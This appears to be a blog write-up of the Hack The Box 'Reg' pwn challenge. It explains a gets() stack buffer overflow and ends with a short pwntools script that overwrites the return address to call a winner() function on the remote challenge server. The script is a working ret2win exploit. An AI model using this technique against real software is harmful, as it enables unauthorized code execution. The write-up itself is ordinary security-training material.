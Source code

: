 ```yaml
---

title: HTB [REG] [PWN]

date: 2022-06-03 07:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```


## Reg

**Description:**

> This is a basic buffer flow exploit. Try to get the flag.


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Here NX enabled so we can't execute our shellcode here
- Let's decompile this binary

![](https://i.imgur.com/OEHHGlO.png)
- Main function calls this `run()` function
- This just gets input from us and prints `Registered!`
- `gets()` is a vulnerable function, we can able to do buffer overflow here
- Let's search for some useful functions


**win function:**

![](https://i.imgur.com/3T8zi7P.png)
- There's a function called `winner()`
- It gives us the flag
- So the goal is to jump to this function
- Now let's write our exploit


**Exploitation part:**
- RIP occurs in 56th position
- So let's fill junk for 56 bytes and put the winner function address next

**Exploit script:**
```python
from pwn import *

elf = context.binary = ELF("./reg")
p = remote('138.68.188.223',31041)

payload = b'A'*56
payload += p64(elf.sym['winner'])

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/OCJqGCR.png)
- Cool it worked !!
